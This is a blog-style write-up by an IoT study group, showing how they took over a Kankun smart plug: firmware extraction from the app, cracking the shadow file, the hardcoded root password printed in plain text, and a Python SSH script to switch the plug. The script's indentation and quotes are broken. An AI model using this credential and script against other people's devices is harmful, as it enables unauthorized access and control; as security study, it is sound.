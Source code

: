 ```yaml
---
path: "/samrtplug-hack"
cover: "../2019-02-08/main.jpg"
slug: "samrtplug-hack"
date: "2019-02-07"
title: "Kankun Smartplug hack"
tags: ['smartplug', 'kankun', 'iot', 'security']
published: true

---
```


![](../2019-02-08/main.jpg )



# TL;DR

Hacking into old kankun smartplug. Then controlling it with python through terminal 

# Introduction

It has now been almost one year when we started to study upon Internet of Things under IoT
study group , an initiative by Null Bhopal chapter. Internet of Things have indeed made a
revolutionary change in the way we live, making it more comfortable. In this process of learning, one
of our mentor, [Mr. Anant Shrivastava](https://twitter.com/anantshri), sponsored us a smart plug. And there it all started.

# How it works

The kankun smart plug is controlled by app. The Instruction manual that comes along with the plug gives information of where to download the app from. The next step is to setup it up and connect the smart phone and smart plug to the same wifi network. When successfully configured, the smart plug is added in the device list. Now the smart plug can be controlled remotely via mobile app. There is another feature  **Direct Mode** , where the smart plug acts as a station having SSID : OK_SP3 , and by default there is no password for the network.

![#](../2019-02-08/images/asdf.png)

After connecting you can control simply control the smart plug with the app.

I also connected my laptop on the same network.  Found the IP address of smart plug with

```
arp -a
```

Then did a `nmap` scan on the smartplug. It suggested that port 22 is open so ssh related attacks are possible.

![](../2019-02-08/images/10.png)



# Lets get started

First I downloaded the `smartwifi.apk` on my laptop running android tamer.

The very first thing to look for was the firmware.

The reason being it gives the overview of the device’s software. Information such as the filesystem present, bootloader, the different binaries present can be of great use from a pentester’s point of view. Although the firmwares are available on the internet, but in case you are unable to find, the other approach can be to reverse engineer the app. There is a tool named `jadx` that can be used to extract the source code.

​​![](../2019-02-08/images/1.png)



Extracting the app shows all the usual folders. We would first time to look for any hard-coded URLs. One can go from all the files one by one but the process is time-consuming. Therefore intelligent use of `grep` can save us a lot of time.

So we are using 

```bash
grep -winr http:
```

This would give us all the url starting with http plus the filename and line number.

![](../2019-02-08/images/3.png)

The highlighted text in the above screenshot shows the hardcoded url in the file`PreferencesUtil.java`. Since the url ends with `.bin` it might be the firmware file

Then simply use `wget` to download the .bin firmware file.

```bash
wget http://app.jkonke.com/kkeps.bin
```



The app also downloads this firmware and flash it to the device. After downloading the
firmware, run `binwalk` on kkeps.bin binary file. And it provides you with loads of useful information such as : LZMA compressed data, squashfs filesystem, so on and so forth. 

One can download binwalk with

```
apt install -y binwalk
```

`-e` option can be used for extracting the filesystem.

```
binwalk –e kkeps.bin
```

![](../2019-02-08/images/6.png)

![](../2019-02-08/images/7.png)

So here is the entire linux file system. So the next step would be to get the root password. Which is
not very difficult if you have the entire file system.

```bash
unshadow /etc/password /etc/shadow > passwd.txt
```

Then one can crack the file using John the Ripper. Password is `p9z34c` Now that we have the root password we can now ssh into the smart plug. To control it with our terminal without the app.

Turning ON and OFF the smart plug can easily done with the help of terminal.

### Turning the smart plug off

```bash
echo 0 > /sys/class/leds/tp-link:blue:relay/brightness
```

### Turning the smart plug on

```bash
echo 1 > /sys/class/leds/tp-link:blue:relay/brightness
```

# Automating

This entire process can be done with the help of this python script that I wrote. This script requires
paramiko library. So you will be required do an

```bash
apt install python-paramiko

```

```python
import paramiko,sys

GREEN=’\033[92m’
BLUE=’\033[94m’
RED=’\033[91m’
RESET=’\x1b[0m’
if len(sys.argv) < 3:
	print “args missing”
sys.exit(1)
host = sys.argv[1]
action = sys.argv[2]
ssh = paramiko.SSHClient()
ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
print BLUE +”[*]   connecting to device”+ RESET
ssh.connect(host, username=’root’, password=’p9z34c’)
path=’/sys/class/leds/tp-link:blue:relay/brightness’
if sys.argv[2] == ‘on’:
	ssh.exec_command(‘echo 1 >’ + path)
print GREEN +”[*]   turning it ” + action +””+RESET
	elif sys.argv[2] == ‘off’:
ssh.exec_command(‘echo 0 >’ + path)
print RED +”[*]   turning it ” + action +””+RESET
ssh.close()
```

That Is how we controlled the smart plug remotely without the smartplug app.
This report is drafted under the IoT study group, an initiative by Null Bhopal chapter.

# Credits

- Deepanshu Gajbhiye ([deep0x00](https://twitter.com/deep0x00))
- Shreya Pohekar ([shreyapohekar](https://twitter.com/shreyapohekar))